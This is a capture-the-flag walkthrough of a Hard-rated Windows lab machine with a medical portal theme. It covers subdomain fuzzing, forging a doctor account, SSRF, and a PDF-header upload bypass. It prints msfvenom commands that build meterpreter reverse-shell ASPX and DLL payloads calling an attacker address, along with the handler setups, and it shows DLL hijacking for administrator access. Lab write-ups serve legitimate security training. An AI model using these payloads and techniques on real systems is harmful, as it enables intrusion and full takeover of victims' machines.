<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Windows</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Hard</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>xRogue</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>October 28, 2023</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-04 00:09 WET
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.11.238
Host is up (0.059s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://meddigi.htb/
|_http-server-header: Microsoft-IIS/10.0
443/tcp open  https?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.03 seconds

```


### HTTPS Page

If we head to https://10.10.11.238 we can see that the domain is meddigi.htb
So we change the /etc/hosts file and check out the web page

/etc/hosts


Web Page


It also allows us to create an account, and when we do, we can see that it creates a patient profile


### ffuf

If we run ffuf to look for subdomains, we find a 'portal' subdomain
``` bash
$ ffuf -u "https://meddigi.htb/" -H "Host: FUZZ.meddigi.htb"  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```


Don't forget to update the hosts file



## Foothold

### Doctor Account

If we head to https://portal.meddigi.htb, we can see that we can login with an email and a Doctor Ref. Number


To get a doctor account, we can capture the register request from when we create an account on the previous page, and change the account type


Now if we login, we confirm that we have a Doctor account


### Doctor Panel

Now we have a doctor account, but I did not find any "Doctor Ref.Number"
However, we can use the access_token cookie from meddigi.htb, to login in portal.meddigi.htb


Now we have access to the Doctor Panel

### SSRF

The "Issue Prescriptions" menu is vulnerable to SSRF on port 8080

It opens a report list, and allows us to open the report file


If we copy the "View Report" link, the link looks like this:
> https://portal.meddigi.htb/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf


### Uploading RevShell

In the Doctor Panel there is also a "Upload Report" menu.
However it only allows us to upload PDF files.
We just need to create a .aspx reverse shell, and add the PDF header.

``` bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.2  LPORT=1337 -f aspx -o revshell.aspx
```
Now add the PDF header (%PDF-1.7%).


With the header, it allows us to upload the report.
If we check the reports again using the SSRF found before, we can see the new report.


Copy the "View Report" link and change the domain to http://127.0.0.1:8080
It will look like something like this:
> http://127.0.0.1:8080/ViewReport.aspx?file=9c934f73-3fea-4b65-af6c-d6d6a960a0ff_revshell.aspx

### User Shell

Finally, to get our first shell in the machine, we setup a meterpreter listener
``` bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.2
set LPORT 1337
set ExitOnSession false
run
```


Now we just place the link to open the shell in the "Issue Prescriptions" menu and we get a shell




Now we just get the user.txt flag


## Lateral Movement

### ReportManagement.exe

If we run netstat on the machine, we can see that there is a ReportManagement.exe running on port 100


We can port forward the port 100 to a port on our local machine, I used port 12345 in this case

And we use netcat on our machine to check what the application does


We will use this later

### ExaminationManagement.dll

If we head to the directory 
>C:\inetpub\ExaminationPanel\ExaminationPanel\bin

We can see a ExaminationManagement.dll file, if we decompile it, we can find a registry key that retrieves while running.

Download the .dll file


Then I used dnSpy to decompile it, and we can find the registry key it accesses


### devdoc login

In the meterpreter session, we can retrieve that registry key with the following command:

``` cmd
reg queryval -k HKLM\\Software\\MedDigi -v EncKey
```
And we get what looks like to be a password


If we try that password on the following list of users 


It works on the user devdoc




## PrivEsc

### ReportManagement.exe

We start by reverse engineering the ReportManagement.exe file that was running on port 100
I downloaded the file and opened it in Ghidra


In Ghidra we can see that it accesses the directory:

> C:\Program Files\ReportManagement\Libraries



And opens a file called "externalupload"



### .dll RevShell

The externalupload file is a .dll file, and the user devdoc has permission to change the file.
So we create a .dll reverse shell, and when we run the upload function on the ReportManagement.exe application, we can get a shell

First create the .dll revshell
``` bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1212 -f dll -o externalupload.dll
```

And upload it to the Libraries folder


### Admin Shell

Now that the reverse shell is uploaded, we start a meterpreter listener
``` bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 1212
set ExitOnSession false
run
```

We run the application that we port forwarded to our local machine and use the upload function


And finally we have a shell as Administrator



Now we just get the root.txt flag
